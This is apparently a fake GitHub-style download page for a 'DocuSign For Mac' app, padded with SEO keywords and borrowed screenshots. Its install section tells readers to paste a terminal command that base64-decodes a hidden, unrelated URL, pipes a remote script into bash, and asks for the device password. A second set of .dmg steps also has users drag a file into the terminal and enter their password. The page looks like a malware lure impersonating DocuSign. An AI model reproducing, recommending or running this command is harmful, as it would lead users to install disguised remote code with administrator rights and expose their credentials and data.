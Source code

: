# DocuSign For Mac — Download For Mac OS 😊
![logo](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcRE4RWv_pjMg-O9JIgqbATnrRyJRUyd3uPWMw&s)

DocuSign For Mac is a powerful desktop application designed to streamline electronic document signing and management for macOS users. Perfect for professionals, businesses, and individuals, this app simplifies the process of signing, sending, and tracking documents securely. Follow the instructions below to install DocuSign For Mac and enhance your document workflow.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/)

If the download button doesn’t work, follow the terminal installation instructions below.

## 📦 How to Install DocuSign For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- ✍️ **Electronic Signatures**: Sign documents securely with legally binding e-signatures.
- 📂 **Document Management**: Organize, send, and track documents from a centralized dashboard.
- 🛠 **Template Creation**: Build reusable templates to streamline repetitive signing tasks.
- 🔔 **Real-Time Notifications**: Get instant alerts for document status updates and signatures.
- 🔄 **Cloud Syncing**: Access your documents across devices with seamless cloud integration.
- 🔒 **Enhanced Security**: Protect sensitive documents with advanced encryption and authentication.

## About DocuSign For Mac

DocuSign For Mac is a dedicated macOS application designed to simplify electronic document signing and management. Whether you're closing contracts, approving forms, or managing agreements, this app provides a secure and efficient solution tailored for Mac users. With its intuitive interface and robust features, DocuSign For Mac ensures a seamless experience for professionals and businesses. Keywords like *DocuSign Mac app*, *e-signature software Mac*, and *free DocuSign download* make it easy for users to find this powerful tool online.

Built for macOS, DocuSign For Mac offers a native experience with fast performance and offline capabilities, setting it apart from web-based alternatives. The app supports electronic signatures, document tracking, and template management, making it ideal for streamlining workflows. Its cloud-based syncing ensures you can access your documents anywhere, anytime. Search terms like *DocuSign for Mac free* and *electronic signature Mac* enhance its visibility for users seeking reliable e-signature solutions.

DocuSign For Mac is perfect for professionals who need a secure and user-friendly platform for managing agreements. The app integrates with popular tools like Dropbox, Google Drive, and Salesforce, allowing you to incorporate it into your existing workflow. Its customizable templates and real-time notifications save time and improve efficiency. By leveraging keywords such as *document signing Mac* and *DocuSign desktop app*, the app attracts users looking for a comprehensive document management solution.

With regular updates to maintain compatibility with the latest macOS versions, DocuSign For Mac delivers a dependable and secure experience. Its robust security features protect sensitive data, while its intuitive design caters to both beginners and experienced users. Whether you’re searching for *free DocuSign Mac* or *e-signature software for Mac*, this app provides exceptional value for anyone looking to optimize their document signing process.

## Advantages of DocuSign For Mac

- 🌟 **Intuitive Interface**: A macOS-optimized design for a seamless user experience.
- ⚡ **Fast Performance**: Quick load times and smooth operation for efficient workflows.
- 📝 **Secure Signatures**: Legally binding e-signatures with advanced encryption.
- 🛠 **Custom Templates**: Create reusable templates for faster document processing.
- 🆓 **Free Access**: Enjoy powerful features at no cost, perfect for small businesses.
- 🔄 **Cross-Device Syncing**: Seamlessly access your documents across Mac and mobile devices.

## 🖼 Preview

![Dashboard View](https://www.docusign.com/static-c-assets/Send_Tab_Upload_your_documents_modal.jpg)  
*Access and manage your documents with a clean, intuitive dashboard.*

![Document Signing](https://www.titanfile.com/wp-content/uploads/2020/08/TitanFile-DocuSign-Integration.png)  
*Sign documents electronically with ease and precision.*

![Template Management](https://d2uars7xkdmztq.cloudfront.net/app_resources/customizations/CANCOM/30887/overview/img6153220955687603414.png?6df01240730238c8cdf4e50600b2b871)  
*Create and manage reusable document templates for efficient workflows.*

![Notifications Panel](https://i.postimg.cc/3JqX9W4k/docusign-notifications.jpg)  
*Stay updated with real-time alerts for document status changes.*

## 🔍 Tags

DocuSign for Mac, DocuSign free, DocuSign app, DocuSign Mac app, e-signature software Mac, free DocuSign download, DocuSign desktop app, electronic signature Mac, document signing Mac, e-signature software for Mac, free DocuSign Mac, DocuSign, DocuSign log in, DocuSign pricing, DocuSign sign in, Docu sign pricing, DocuSign in, Docu sign com, Docu sign sign in, Docu sign in, DocuSign DocuSign com, DocuSign cost, DocuSign account, DocuSign sign up, DocuSign download, DocuSign for business, DocuSign eSignature, DocuSign com access documents, DocuSign access documents, Docu signature, DocuSign electronic signature, DocuSign document, DocuSign inc, DocuSign documents
